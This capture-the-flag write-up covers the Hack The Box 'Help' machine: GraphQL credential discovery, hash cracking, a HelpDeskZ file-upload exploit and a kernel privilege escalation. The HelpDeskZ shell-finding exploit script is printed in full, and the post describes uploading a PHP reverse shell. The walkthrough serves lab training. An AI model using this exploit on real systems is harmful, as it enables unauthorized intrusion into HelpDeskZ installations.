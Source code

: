 ```yaml
---
title: 'HTB: Help'
date: '2025-04-26'
excerpt: 'Thank you for reading!'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Medium', 'Linux']
author: 'pir4cy'
coverImage: '/images/htb/covers/help-cover.png'
---
```


# Help

## Info
  * IP : 10.10.10.121
  * OS : Linux
  * DIfficulty: Easy/Medium

## System Enumeration

### NMAP
![nmap](/images/htb/machines/Help/nmap.png "NMAP")

### Port 80
![port 80](/images/htb/machines/Help/port80.png "Port 80")

### Port 3000
![port 3000](/images/htb/machines/Help/port3k.png "Port 3000")

nmap shows port 3000 hosts the node.js express framework, loading up port 3000 we see that we need to enter a query.  
A quick google search for "query + nodejs + express" gives us a new keyword "graphql".  

So, we check for graphql by simply typing `/graphql` 

### Finding Credentials

To read and interact with GraphQL properly, I used the JSON decoder of the BurpSuite.  
![Burp Suite](/images/htb/machines/Help/credsfound.png "Burp Suite")

The password hash found can be easily cracked using online utilities such as crackstation.  
![Cracked Password](/images/htb/machines/Help/crackedpw.png "Cracked Password")

### Support Page

HelpDeskZ is being used for the support API of the website, and since we've already found the credentials, we can easily login.  
![Support Page](/images/htb/machines/Help/supportPage.png "Support Page")

![Logged In](/images/htb/machines/Help/loggedInHelpDeskz.png "Logged In")

#### Exploitation

Looking for a possible exploit, I found `https://www.exploit-db.com/exploits/40300` to be of use.  

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

We can upload a reverse shell through the HelpDeskZ portal along with a ticket and use the given python code to find our uploaded shell.  

*Although it can be done without logging in, the login helped me with the timezone matching problem, without which I'd have to edit the exploit.py according to my timezone.*

Since the tickets formed, keep changing with respect to the time, we match our timezone with the timezone of the HelpDeskz portal.  

![TimeServer](/images/htb/machines/Help/timezoneServer.png "Time Zone Server Change")

![TimeClient](/images/htb/machines/Help/timezoneClient.png "TIme Zone Client Change")

Now, we should upload our shell.  

Using a simple `php-reverse-shell` provided by `pentestmonkey`, I simply changed the required values and uploaded it as a ticket file.  

![uploaded shell](/images/htb/machines/Help/uploadingShell.png "Uploading the php shell")

As I submitted my ticket, I received the error `File Not Allowed`, but looking at the source code of HelpDeskz, this error is bogus and the file is still uploaded.  

So, we run the exploit  
![Python Exploit](/images/htb/machines/Help/pyexploit.png "PyExploit")  

File found! So we create a listener and open up our shell and voila! We are in
![Listening for Shell](/images/htb/machines/Help/listeningForShell.png "Listening for Shell")  

## User Found

![User Found](/images/htb/machines/Help/userfound.png "User")

## Privilege Escalation

Enumerating the system, we get the following information  
![PrivEsc 1](/images/htb/machines/Help/privesc1.png "Privilege Enumeration")

Searching for a possible exploit on searchsploit  
![SearchSploit](/images/htb/machines/Help/searchsploit.png "Searchsploit")

Looking up the kernel exploit and running it on the machine, we get root!  
![Root Gained](/images/htb/machines/Help/rootgained.png "Rooted!")

Thank you for reading!
